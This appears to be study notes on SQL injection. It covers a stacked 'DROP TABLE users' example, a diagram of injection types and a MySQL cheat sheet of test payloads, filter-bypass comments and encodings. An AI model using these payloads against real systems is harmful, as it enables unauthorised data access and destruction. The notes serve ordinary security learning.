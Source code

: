 if $searchInput="admin" then the above query gets executed
```sql
SELECT * FROM logins WHERE username LIKE '%admin'
```

if $searchInput="admin'; DROP TABLE users;" then normal query for admin in logins table gets executed  
but a second query to drop the table users also gets executed  
adding 2 queries in 1 lines is possible in MSSQL and PostgreSQL but not MySQL  
```sql
SELECT * FROM logins WHERE username LIKE '%admin'; DROP TABLE users;'
```

## Injection types
```
                                        ╔═════════╗
                                        ║  SQLi   ║
                                        ╚═════════╝
                                             |
                 |'''''''''''''''''''''''''''|''''''''''''''''''''''''''|
            ╔═════════╗                 ╔═════════╗                ╔═════════╗
            ║   IB    ║                 ║  BLIND  ║                ║   OOB   ║  
            ╚═════════╝                 ╚═════════╝                ╚═════════╝
                 |                           |
          |'''''' ''''''|             |'''''' ''''''|
     ╔═════════╗   ╔═════════╗   ╔═════════╗    ╔═════════╗
     ║  UNION  ║   ║  ERROR  ║   ║ BOOLEAN ║    ║  TIME   ║
     ╚═════════╝   ╚═════════╝   ╚═════════╝    ╚═════════╝
```
- Blind - (or inferial) - bool - time
- In Band - Error based - Union based
- Out Of Band -> attacker is unable to use the same channel to launch the attack and gather results.

## MySQL sqli cheat sheat
```
'                   String terminator
"                   String terminator
;                   Query terminator
-- -                Removes the rest of the query
#                   Removes the rest of the query
/*comment this*/    Can be placed anywhere in a query, used for bypassing weak filters
'-- -               End a string and remove rest of the query
';-- -              End a string, end query, and remove rest of the query
OR 1=1-- -          For integers, true test
OR 1=2-- -          For integers, false test
' OR '1'='1'-- -    For strings, test test
AND 1=1-- -         For integers, true test
AND 1=2-- -         For integers, false test
' AND '1'='1'-- -   For strings, true test
?id=2-1             For integers, arithmetic operation would load the resultant post
OR sleep(5)-- -     Blind test

'    %27
"    %22
#    %23
;    %3B
)    %29
```
